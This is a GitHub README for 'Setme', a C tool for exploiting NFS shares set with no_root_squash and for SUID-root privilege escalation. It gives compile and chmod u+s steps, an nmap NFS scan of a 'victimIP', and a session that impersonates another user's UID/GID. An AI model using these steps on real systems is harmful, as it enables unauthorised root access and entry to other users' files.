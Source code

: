 # Setme

**A simple binary made in C to make exploitation of insecure NFS systems easier from a Linux host. Alternatively this quick nifty tool can be used with privilege escalation vectors such as privileged write/execution on a system, to simplify escalation and allow for stability during exploitation of said vector.**  

This one binary avoids having to add users and groups (and later deleting) when going through many different users NFS directories. It allows for root access and inheritance of permissions through SUID. Drop in a no_root_squash nfs directory,compile through the mounted nfs (or on your host system) and execute the finished binary on target machine to give yourself root.
##
**Installation:**  
Download the file setMe.c from the repo.

Compile with:  
**gcc setme.c -o setMe**  
Then on target system:  
**sudo chown root:root ./setMe && sudo chmod gu+s ./setMe**

*Considerations:*  
I would make sure you keep access to this binary very restricted, or delete after use- but I guess you would know that since you made it this far ;) .

##
**Usage:  
sudo nmap --script=nfs-ls** victimIP  
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-09 15:08 MST  
Nmap scan report for 10.10.10.10  
Host is up (0.097s latency).  
Not shown: 993 closed ports  
PORT STATE SERVICE  
22/tcp open ssh  
25/tcp open smtp  
80/tcp open http  
110/tcp open pop3  
111/tcp open rpcbind  
| nfs-ls: Volume /home  
| access: Read Lookup NoModify NoExtend NoDelete NoExecute  
| PERMISSION **UID GID** SIZE TIME FILENAME  
| drwxr-xr-x 0 0 4096 2015-09-17T13:21:59 .  
| drwxr-xr-x 0 0 4096 2015-01-07T10:56:34 ..  
| drwxr-xr-x **1013 1013** 4096 2016-11-23T10:17:47 mike  
| drwxr-xr-x **1012 1012** 4096 2012-01-23T11:20:40 alex  
| drwxr-xr-x **1011 1011** 4096 2017-06-23T10:32:52 jeff  
| drwxr-xr-x **1014 1014** 4096 2015-12-1T21:11:51 james  
|_  
119/tcp open nntp  
2049/tcp open nfs
  
Say we want to get into **mikes files**, we execute our binary with:  
**./setMe 1013 1013**  
Then we can get varying levels of access to the files depending on how the permissions are set up on the share. 

**Another example:**  
pop@kali:/setme/$ **./setMe 1013 1013**  
$ **id**  
uid=1013 gid=1013 groups=1013  
  
  
We are now free to browse the nfs folder shares pertaining to the uid and gid in this shell.
To exit the shell type "exit".


